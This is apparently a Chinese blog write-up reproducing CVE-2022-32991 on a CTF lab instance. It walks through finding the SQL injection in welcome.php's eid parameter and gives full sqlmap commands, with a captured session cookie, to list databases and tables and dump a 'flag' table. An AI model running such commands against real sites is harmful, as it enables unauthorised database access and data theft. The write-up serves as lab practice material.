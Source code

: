 ```yaml
---
title: CVE-2022-32991
subtitle:
date: 2025-03-14T13:11:14+08:00
slug: 85472c2
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

尝试注册账号，注册完成以后登录

![](images/0dab76148ac78a186c13d411543798f9.png)
根据提示

![](images/02ddae09f0f72d3d7ebbad4f0ad43799.png)
该SQL注入位于welcome.php处。但是参数根据CVE官方应该是通过eid参数的SQL注入，但是上述页面并不是eid参数，需要继续查找。

![](images/1755879bd17168ddc6869dda07eae1f8.png)
在此处发现eid参数

![](images/244f0196e4e82a542f3b56ad63d33d23.png)
抓包找到所需要的参数，因为该页面需要登录访问，所以需要获得Cookie绕过身份验证，并添加-user-agent参数绕过客户端验证。

![](images/8d563db15e5e04624d859a8fc73492df.png)

```
Cookie: PHPSESSID=25p9b92ovsqudtuepvmi7jgvma
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
```

Sqlmap进行攻击

```
 sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch --dbs
```

得到数据库

![](images/1a48213ec268f830405b986cd6745473.png)
爆出数据库以后，进行爆表

```
sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch -D "ctf" --tables
```



![](images/683694ef17178f038bc2277de14cf1ec.png)
得到表名再去爆破列名

```
sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch -D "ctf" -T "flag" --columns
```



![](images/1d577c691a349bbad1317a6a47772633.png)
继续爆破字段

```
sqlmap -u "http://eci-2ze4fh5ffzlnoxzusgkd.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" -p "eid" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0" --cookie="PHPSESSID=25p9b92ovsqudtuepvmi7jgvma" --batch -D "ctf" -T "flag" -C "flag" --dump
```



![](images/eced71d2a9282e89527650a514d70945.png)

总结

```
--cookie                        #绕过身份验证
--random-agent或--user-agent    #绕过客户端验证
--batch                         #默认后续sqlmap操作都为Y
--p                             #指定sqlmap注入的传参参数
```
